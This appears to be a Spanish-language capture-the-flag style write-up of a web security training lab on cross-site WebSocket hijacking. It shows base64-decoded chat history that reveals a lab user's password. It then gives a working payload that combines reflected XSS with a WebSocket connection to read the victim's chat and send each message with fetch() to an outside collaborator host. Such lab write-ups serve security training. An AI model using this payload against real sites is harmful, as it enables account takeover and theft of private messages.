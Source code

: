 ![](/img2/Pasted%20image%2020250802131645.png)

```
eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IkhlbGxvLCBob3cgY2FuIEkgaGVscD8ifQ==
eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgODRqYzB5a3drczZjN3FxM2MzbTEifQ==
eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IkkgZm9yZ290IG15IHBhc3N3b3JkIn0=
eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IlRoYW5rcywgSSBob3BlIHRoaXMgZG9lc24mYXBvczt0IGNvbWUgYmFjayB0byBiaXRlIG1lISJ9
eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9
```

```bash
❯ cat data | base64 -d 
```

```json
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"Hal Pline","content":"No problem carlos, it&apos;s 84jc0ykwks6c7qq3c3m1"}{"user":"You","content":"I forgot my password"}
{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"} 
```

> Encontramos las credenciales carlos:84jc0ykwks6c7qq3c3m1 dentro del historial de la víctima.

- Injection

```html
<script>
    location="https://cms-0a7a005d0342e00880800329002c0087.web-security-academy.net/login?username=%3Cscript%3E+++++var+webSocket+%3D+new+WebSocket%28%22wss%3A%2F%2F0a7a005d0342e00880800329002c0087.web-security-academy.net%2Fchat%22%29%3B++++++webSocket.onopen+%3D+function%28%29+%7B+++++++++webSocket.send%28%22READY%22%29%3B+++++%7D%3B++++++webSocket.onmessage+%3D+function%28message%29+%7B+++++++++fetch%28%22https%3A%2F%2F7aib4qn9mkaks7unl1rwx2iuklqce22r.oastify.com%2F%3Fdata%3D%22+%2B+btoa%28message.data%29%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=testing123"
</script>
```
